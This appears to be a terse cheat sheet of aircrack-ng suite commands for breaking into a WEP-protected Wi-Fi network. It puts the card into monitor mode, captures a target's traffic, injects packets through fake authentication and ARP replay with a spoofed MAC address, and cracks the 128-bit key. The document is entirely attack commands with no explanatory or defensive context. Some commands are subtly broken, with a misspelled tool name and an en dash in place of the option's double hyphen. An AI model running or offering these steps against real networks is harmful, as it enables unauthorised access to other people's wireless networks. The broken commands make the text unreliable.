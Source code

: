 # Airodump

## Preparing The WIFI Card

modprobe -r iwl3945
modprobe ipwraw
airmon-ng start [device]
airodump-ng [device]
airodump-ng -c [channel] -w [network.out] –bssid [bssid] [device]
aireplay-ng -1 0 -a [bssid] -h 00:11:22:33:44:66 -e [essid] [device]
airplay-ng -3 -b [bssid] -h 00:11:22:33:44:66 [device]
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b [bssid] -h 00:11:22:33:44:66 [device]
aircrack-ng -n 128 -b [bssid] [filename]-01.cap
